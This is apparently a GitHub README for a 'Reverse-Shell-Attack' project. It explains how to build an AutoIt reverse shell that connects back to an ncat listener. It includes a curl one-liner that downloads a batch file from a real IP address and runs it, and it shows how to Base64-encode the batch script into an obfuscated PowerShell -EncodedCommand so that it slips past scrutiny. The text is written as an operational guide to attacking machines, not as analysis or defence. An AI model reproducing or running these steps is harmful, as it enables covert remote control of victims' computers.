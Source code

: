 # Reverse-Shell-Attack
Reverse Shell use Autoit code and TCP connect with server listening by ncat

* Chance HOST and PORT in SomeThing.au3 to your IP (public, not local).
* Setup hosting or server hold file AutoIt.rar, SomeThing.au3 and bat file.
* Local attack by ```curl -O http://103.97.127.14/a.bat && a.bat && exit``` or convert to hex and attack with ShellCode Injection
* If you want to upgrade the au3 code, you can edit or add function to SomeThing.au3

## Build
* When done in SomeThing.au3, use Aut2Exe conver it to file .a3x
* mv it to host or server, make it public (or anything as long as it works with curl). 
* write batfile, example is ```MainScript.txt```. Chance IP, and write anything if you want.
* Convert to Base64 with:
```$fileContent = Get-Content -Raw -Path "YOUR PATH\MainScript.txt"```
```$base64Encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($fileContent))```
* $base64Encoded is your base64 code
* make another bat file with script: powershell.exe -EncodedCommand [your base64 code]
* Save it, and mv to host. This is main bat file to attack. Example: ```HelloWord.bat```